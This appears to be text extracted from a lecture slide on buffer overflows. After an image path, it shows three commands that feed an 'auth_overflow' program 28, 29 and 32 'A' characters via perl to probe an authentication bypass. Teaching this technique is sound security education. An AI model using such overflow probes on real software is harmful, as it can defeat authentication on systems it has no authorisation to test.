

#
IF ./auth_overflow $( perl –e ‘print ”A”x28’ )

IF ./auth_overflow $( perl –e ‘print ”A”x29’ )

IF ./auth_overflow $( perl –e ‘print ”A”x32’ )